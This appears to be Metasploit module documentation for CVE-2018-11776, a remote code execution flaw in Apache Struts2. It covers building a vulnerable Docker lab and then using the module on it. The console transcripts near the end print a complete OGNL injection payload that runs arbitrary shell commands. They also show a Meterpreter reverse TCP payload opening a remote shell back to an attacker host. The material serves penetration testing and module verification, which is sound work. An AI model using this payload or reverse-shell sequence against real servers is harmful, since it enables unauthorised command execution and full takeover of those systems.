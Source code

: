 CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

Tomcat versions prior to 7.0.88 will provide output from the injected OGNL and require that we prepend some OGNL to set `allowStaticMethodAccess=true`. Versions starting at 7.0.88 do not provide OUTPUT from injected OGNL and will error if we attempt to modify `allowStaticMethodAccess`.  The `ENABLE_STATIC` option is used to toggle behavior, and the `check` method fingerprints the correct version.

As a result of the lack of OGNL output, we currently cannot support large payloads (namely Windows Meterpreter payloads) on Tomcat versions >= 7.088. Future committers might consider compressing the windows/x64/meterpreter templates or implementing GZIP compression of payloads.



## Vulnerable Application

The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliably as a practice environment.
*@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include excerpts of here:

1. From a stock Ubuntu VM, install docker:

    ```
    sudo apt update && sudo apt install docker.io
    ```

2. Download a vulnerable Struts showcase application inside a docker container:

    ```
    sudo docker pull piesecurity/apache-struts2-cve-2017-5638
    sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
    CONTAINER_ID=`sudo docker ps -l -q`
    ```

3. Now that the container is running, open a terminal inside of it:

    ```
    sudo docker exec -it $CONTAINER_ID /bin/bash
    ```

4. From within the container, install your text editor of choice and modify the Struts configs:

    ```
    sudo apt update && sudo apt install nano
    nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
    ```

5. Update the struts config to add this to above line #11:

    ```
    &lt;constant name=&quot;struts.mapper.alwaysSelectFullNamespace&quot; value=&quot;true&quot; /&gt;
    ```

6. Update the same struts config file to add this above line #78:

    ```
    &lt;action name=&quot;help&quot;&gt;
        &lt;result type=&quot;redirectAction&quot;&gt;
            &lt;param name=&quot;actionName&quot;&gt;date.action&lt;/param&gt;
        &lt;/result&gt;
    &lt;/action&gt;
    ```

7. Still within the container, shutdown the environment:

    ```
    /usr/local/tomcat/bin/shutdown.sh
    ```

8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:

    ```
    sudo docker start $CONTAINER_ID
    ```

Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:

```
INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
```

## Verification Steps

  Confirm that check functionality works:

  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: `use exploit/multi/http/struts_namespace_ognl`
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: `set ACTION wrong.action`
  - [ ] Confirm the target is *not* vulnerable: `check`
  - [ ] Observe that the target is *not* vulnerable: `The target is not exploitable.`
  - [ ] Set a valid ACTION: `set ACTION help.action`
  - [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

  Confirm that command execution functionality works:

  - [ ] Set a payload: `set PAYLOAD cmd/unix/generic`
  - [ ] Set a command to be run: `set CMD hostname`
  - [ ] Run the exploit: `run`
  - [ ] Confirm the output is the container ID of your docker environment, e.g: `b3d9b350d9b6`
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:

  - [ ] Set a payload, e.g.: `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: `run`

## Options

  **TARGETURI**

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

  **ACTION**

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

Checking a vulnerable endpoint, as installed in the above steps:

```
msf > use exploit/multi/http/struts_namespace_ognl
msf exploit(multi/http/struts_namespace_ognl) > set RHOSTS 192.168.199.135
msf exploit(multi/http/struts_namespace_ognl) > set RPORT 32771
msf exploit(multi/http/struts_namespace_ognl) > set ACTION help.action
ACTION => help.action
msf exploit(multi/http/struts_namespace_ognl) > check
[+] 192.168.199.135:32771 The target is vulnerable.
```

Running an arbitrary command on the above-described environment:

```
msf exploit(multi/http/struts_namespace_ognl) > set VERBOSE true
msf exploit(multi/http/struts_namespace_ognl) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf exploit(multi/http/struts_namespace_ognl) > set CMD hostname
CMD => hostname
msf exploit(multi/http/struts_namespace_ognl) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf exploit(multi/http/struts_namespace_ognl) >
```

Getting a Meterpreter session on the above-described environment:

```
msf > use exploit/multi/http/struts2_namespace_ognl
msf exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
```

